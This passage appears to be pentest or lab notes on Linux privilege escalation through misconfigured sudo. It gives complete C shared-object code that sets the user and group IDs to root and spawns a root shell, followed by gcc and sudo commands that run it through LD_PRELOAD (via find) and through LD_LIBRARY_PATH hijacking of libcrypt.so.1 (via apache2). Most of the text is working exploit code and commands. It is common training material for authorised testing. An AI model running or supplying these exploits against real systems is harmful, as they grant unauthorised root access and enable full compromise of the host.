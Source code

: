 The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
4. The C code will simply spawn a root shell and can be written as follows;

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Then:
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
```

3. LD_LIBRARY_PATH
Check shared libraries of a program:

```
ldd <program>
ldd /usr/sbin/apache2
```

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using code that spawns a shell.

```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Compile it and run the exploit:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

